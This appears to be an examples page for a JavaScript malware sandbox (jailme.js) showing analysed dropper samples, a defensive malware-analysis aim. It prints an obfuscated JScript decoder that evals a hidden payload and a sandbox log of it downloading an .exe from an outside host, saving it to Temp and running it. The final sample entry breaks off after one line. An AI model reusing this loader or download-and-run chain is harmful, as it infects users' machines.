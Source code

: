 # Examples #

## TBD ##

This piece is permuting a text array until it completes the Function body puzzle ... 2,1,3,5,4

    function qqfak() {
        var bwfgg=new Array("}R%","g."+""+"f","h){","e(p","++;","].su","JKX","PTC");
        return bwfgg[Math.floor(Math['rand'+new Array('om')[0]]()*bwfgg.length)];
    }
    function kdorj(hlgwz) {
        return (new Function("eaipe","pbllg","wblzm","var pbusw=eaipe.ma"+"tch(/\\S{5}/g),jatsj=\"\",
            msjdc=0;while(msjdc<pbusw.lengt"+qqfak()+"jatsj+=Strin"+qqfak()+"romCh"+"arC"+"od"+qqfak()+
            "ars"+"eI"+"nt(pbusw[msjdc"+qqfak()+"bstr(3,"+"2),1"+"6)^17);msjdc"+qqfak()+"}eval(jatsj);")(hlgwz,null,null));
    }

Then it performs a standard payload download and execution. Apparently source stil delivering the payload:

    14 Jan 13:51:54 - MSXML2.XMLHTTP[2721].open(GET,http://www.readheat.com/news/1243142.exe,false)
    14 Jan 13:51:56 - Scripting.FileSystemObject[2722].GetSpecialFolder(2) => C:\Users\User\AppData\Local\Temp\
    14 Jan 13:51:56 - ADODB_Stream[2723].content = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$????????1???P???P???P??*_???P???P??OP??*_???P??s???P??.V???P??Rich?P??????????PE??L????c?W?????????????????b???????????3????????? ... (truncated)'
    14 Jan 13:51:56 - ADODB_Stream[2723].SaveToFile(C:\Users\User\AppData\Local\Temp\\ij0gv0atr.exe, 2)
    14 Jan 13:51:56 - WScript.Shell[2724].Run(C:\Users\User\AppData\Local\Temp\\ij0gv0atr.exe, undefined, undefined)

**malwr.com:** https://malwr.com/analysis/MzY3Y2U1YWMwMjY0NDRjZDgyOTFiYzY3YTVhNjI0ZTE/

**Source code:** malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.js

**Command:**

    node jailme.js -c ./config_wscript_only.json --down malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.js

**Output:** [malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.out](malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.out)


## Speed Detected Photo.js ##

One with 2nd stage obfuscated into a Powershell command:

    14 Dec 20:23:27 - new WScript.Shell[2]